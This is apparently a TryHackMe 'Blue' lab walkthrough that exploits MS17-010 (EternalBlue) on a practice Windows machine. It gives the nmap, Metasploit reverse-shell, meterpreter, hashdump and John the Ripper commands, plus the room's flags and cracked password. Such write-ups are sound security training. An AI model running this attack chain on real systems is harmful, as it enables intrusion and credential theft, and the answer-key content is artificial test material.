##### Link: [Blue](https://tryhackme.com/room/blue)
---
##### Task 1: Recon
1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the `Nmap` room)
	- Run `nmap`
		- `sudo nmap 10.48.190.144`
			- 
	- `No answer needed`
2. How many ports are open with a port number under `1000`?
	- Answer: `3`
3. What is this machine vulnerable to? (Answer in the form of: `ms??-???`, ex: `ms08-067`)
	- From room name & question hints, its likely `ms17-010`
	- To confirm vulnerability, `nmap` has script for it
		- `sudo nmap -p445 --script smb-vuln-ms17-010 10.48.190.144`
			- 
	- Answer: `ms17-010`
---
##### Task 2: Gain Access
1. Start Metasploit
	- Run `msfconsole`
		- `msfconsole -q`
			- 
	- `No answer needed`
2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: `exploit/........`)
	- Use `search` function
		- `search ms17_010`
			- 
	- `exploit/windows/smb/ms17_010_eternalblue`
3. Show options and set the one required value. What is the name of this value? (All caps for submission)
	- Use module and show the options
		- `use exploit/windows/smb/ms17_010_eternalblue`
		- `show options`
			- 
			- 
	- `RHOSTS`
4. Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter: `set payload windows/x64/shell/reverse_tcp`. With that done, run the exploit!
	- Change setting
		- `set RHOSTS 10.48.190.144`
		- `set RHOSTS 10.48.190.144`
		- `set  payload windows/x64/shell/reverse_tcp`
			- 
	- Then run it
		- `payload windows/x64/shell/reverse_tcp`
			- 
			- 
	- Shell spawn as `SYSTEM`
	- `No answer needed`
5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (`CTRL + Z`). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.
	- Background shell. Take note of session number
		- `Ctrl+Z`
			- 
	- `No answer needed`
---
##### Task 3: Escalate
1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
	- Use `search`
		- `search shell_to_meterpreter`
			- 
	- `post/multi/manage/shell_to_meterpreter`
2. Select this (use MODULE_PATH). Show options, what option are we required to change?
	- Use module and show the options
		- `use post/multi/manage/shell_to_meterpreter`
		- `show options`
			- 
	- `SESSION`
3. Set the required option, you may need to list all of the sessions to find your target here.
	- Set session to 1 (because our shell session earlier are number 1)
		- `set SESSION 1`
			- 
	- `No answer needed`
4. Run! If this doesn’t work, try completing the exploit from the previous task once more.
	- Run module
		- `run`
		- `sessions`
			- 
	- It doesn’t work on first try, we see no success message or new session appear
	- Try again
		- `run`
		- `sessions`
			- 
	- It’s working on second try. We see `meterpreter` in the session list
	- `No answer needed`
5. Once the meterpreter shell conversion completes, select that session for use.
	- Use `sessions` with `-i` option to use sessions
		- `sessions -i 2`
			- 
	- `No answer needed`
6. Verify that we have escalated to `NT AUTHORITY\SYSTEM`. Run `getsystem` to confirm this. Feel free to open a dos shell via the command `shell` and run `whoami`. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.
	- Run `getsystem`
		- `getsystem`
			- 
	- `No answer needed`
7. List all of the processes running via the `ps` command. Just because we are system doesn’t mean our process is. Find a process towards the bottom of this list that is running at `NT AUTHORITY\SYSTEM` and write down the process id (far left column).
	- Despite the warning, running `hashdump` proven to be successful, indicating our `meterpreter` session run with `SYSTEM` privilege. There’s no need for migration
		- `hashdump`
			- 
	- Back to module. run `ps` to view running process, we will look for privileged service like `lsass`
		- 
	- `No answer needed`
8. Migrate to this process using the `migrate PROCESS_ID` command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.
	- Use `migrate` while providing target process `PID`
		- `migrate 724`
			- 
	- `No answer needed`
---
##### Task 4: Cracking
- Within our elevated meterpreter shell, run the command `hashdump`. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
	- Run `hashdump`
		- `hashdump`
			- 
	- `Jon`
2. Copy this password hash to a file and research how to crack it. What is the cracked password?
	- Put the hash into file
		- `echo "ffb43f0de35be4d9917ac0cc8ad57f8d" > jon.hash`
			- 
	- Run `John the Ripper` in `NT` format
		- `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt jon.hash`
			- 
	- `alqfna22`
---
##### Task 5: Find flags!
1. Flag1? This flag can be found at the system root. 
	- Check `c:`
		- `ls "c:"`
			- 
	- We found `flag1.txt`. Now read it
		- `cat "c:\flag1.txt"`
			- 
	- `flag{access_the_machine}`
2. Flag2? This flag can be found at the location where passwords are stored within Windows. Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.
	- Hints say directory where password stored, which is `C:\Windows\System32\config\SAM`
	- Checking `C:\Windows\System32\config`, we found the flag
		- `ls "c:\Windows\System32\Config"`
			- 
	- Then read it
		- `cat "c:\Windows\System32\Config\flag2.txt"`
			- 
	- `flag{sam_database_elevated_access}`
3. Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
	- Checking user directory, we find there’s no directory for administrator
		- `ls "c:\users"`
			- 
	- `Jon`s directory looks suspicious because of its last modified date
	- Let’s confirm whether `Jon` is administrator, we need to do it from `cmd` by running `shell` command from `meterpreter`
		- `shell`
			- 
		- `net localgroup Administrators`
			- 
	- `Jon` is member of administrator group, let’s check his home directory. We use `tree` command for recursive search
		- `tree /F c:\users\Jon`
			- 
	- We find the flag, read it
		- `type c:\users\Jon\Documents\flag3.txt`
			- 
	- `flag{admin_documents_can_be_valuable}`
---
